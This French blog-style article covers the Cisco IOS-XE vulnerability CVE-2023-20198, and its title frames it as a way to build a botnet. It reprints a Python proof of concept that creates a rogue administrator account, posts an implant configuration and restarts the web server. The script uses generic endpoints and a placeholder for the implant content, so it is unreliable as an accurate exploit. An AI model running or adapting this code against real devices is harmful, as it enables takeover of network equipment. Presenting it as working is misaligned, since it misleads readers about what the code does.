 # CVE-2023-20198 Cisco IOS-XE ZeroDay - Ou comment créer son réseau de botnet ?


# 🧟 Cisco CVE-2023-20198 - Ou comment créer son réseau de botnet ?

## Introduction

Le 16 octobre 2023, Cisco a communiqué sur une vulnérabilité critique d'élevation de privilèges via l'interface Web sous l'identifiant CVE-2023-20198 au score CVSS de 10.

Cisco affirme que la vulnérabilité est largement exploitée. La vulnérabilité permet à un attaquant non authentifié de créer un compte aux privilèges maximales. Il n'existe pas de correctif pour cette vulnérabilité pour le moment.

## Détails de l'exploitation

L'exploitation est relativement simple. Il n'existe pas de PoC clef en main pour cette vulnérabilité. Cependant, un exploit est disponible sur GitHub à l'heure où cet article est rédigé (vendredi 20 octobre 2023 à 12h00). Lien : https://github.com/Tounsi007/CVE-2023-20198

Contenu du PoC :

```py
import requests

# Exploit CVE-2023-20198 to create a local user account
create_user_url = "https://target.com/webui/create_user"
username = "cisco_tac_admin"
password = "P@ssw0rd"

user_payload = {
    "username": username,
    "password": password
}

response = requests.post(create_user_url, data=user_payload, verify=False)

if response.status_code == 200:
    print(f"Successfully created local user account: {username}")

# Exploit CVE-2021-1435 to install the implant
install_url = f"https://target.com/webui/cisco_service.conf"
config_content = "<insert implant configuration content here>"

config_payload = {
    "config_content": config_content
}

response = requests.post(install_url, data=config_payload, verify=False)

if response.status_code == 200:
    print("Implant installed successfully")

# Restart the web server to activate the implant
restart_url = "https://target.com/webui/restart_server"

response = requests.post(restart_url, verify=False)

if response.status_code == 200:
    print("Web server restarted successfully. Implant is active")
```